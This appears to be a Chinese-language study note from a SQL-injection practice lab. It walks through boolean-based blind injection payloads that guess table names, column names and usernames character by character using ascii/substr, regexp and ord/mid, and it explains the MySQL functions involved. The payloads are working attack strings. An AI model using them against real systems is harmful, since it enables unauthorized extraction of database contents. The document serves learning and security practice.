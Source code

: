 使用`ascii`、`substr`来进行数据表名的猜测,security库中第一个表为email表,e的ascii是101

通过设置substr来猜测第一个表的表名，limit来移动到第二个表

```
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 --+
```

![image](https://note.youdao.com/yws/res/10994/F05DD56001314F3C9A1A3C88C534BAAB)
![image](https://note.youdao.com/yws/res/11005/DB2DDBA86A6A406DB6E2C520E0EBFE0E)

猜测email表的第二个字符

```
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109--+
```

![image](https://note.youdao.com/yws/res/11013/3A41B797FBCB45219AAC73373757492B)

猜测referers表的第一个字符

```
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+
```
![image](https://note.youdao.com/yws/res/11021/54F2AAB93126475BA0BEDAF6205286BD)

#### 猜测列名
利用 regexp 获取中users 表中的列

```
?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^username' limit 0,1)--+
```

![image](https://note.youdao.com/yws/res/11030/F8014649E1B441B2BFAEFC1E21F93AC3)


#### 猜测表内容
利用 ord（）和 mid（）函数获取 users 表的内容  
获取到Dumb的D
```
?id=1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))= 68--+
```

> IFNULL()函数用法
> ```
> 用法说明：IFNULL(expr1,expr2)
>如果 expr1 不是 NULL，IFNULL() 返回 expr1，否则它返回 expr2。
> ```

> MID() 函数
>
>用于得到一个字符串的一部分。这个函数被MySQL支持，但不被MSSQL Server和Oracle支持。在SQL Server， Oracle 数据库中，我们可以使用 SQL SUBSTRING函数或者 SQL SUBSTR函数作为替代。
>
>SELECT MID(ColumnName, Start [, Length]) FROM TableName
>
>注：字符串从1开始，而非0，Length是可选项，如果没有提供，MID()函数将返回余下的字符串。
> ```
> SELECT MID('NowaMagic', 5, 5);
> +------------------------+
> | MID('NowaMagic', 5, 5) |
> +------------------------+
> | Magic                  |